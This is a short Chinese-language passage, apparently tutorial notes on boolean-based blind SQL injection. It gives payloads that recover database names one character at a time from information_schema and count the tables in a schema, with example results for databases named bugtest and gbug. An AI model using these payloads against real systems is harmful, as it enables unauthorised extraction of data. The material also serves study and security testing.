 #### 判断数据库名

```mysql
AND ((SELECT ASCII(SUBSTR(schema_name,第x位,1)) FROM information_schema.schemata limit 第x个数据库,1)=ascii码)
```

```
ascii码 98 对应的字符是 b，第一个数据库的完整名是 bugtest，第一位是 b
```

![image-20250222004853749](static/image/image-20250222004853749-0229746.png)

#### 判断表的数量

```mysql
# 数据库名可以使用字符串也可以使用字符串转换后的16进制
AND ((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema='数据库名')=6)
AND ((SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=0x67627567)=6)
```

```
gbug 数据库的表总数为 6
```

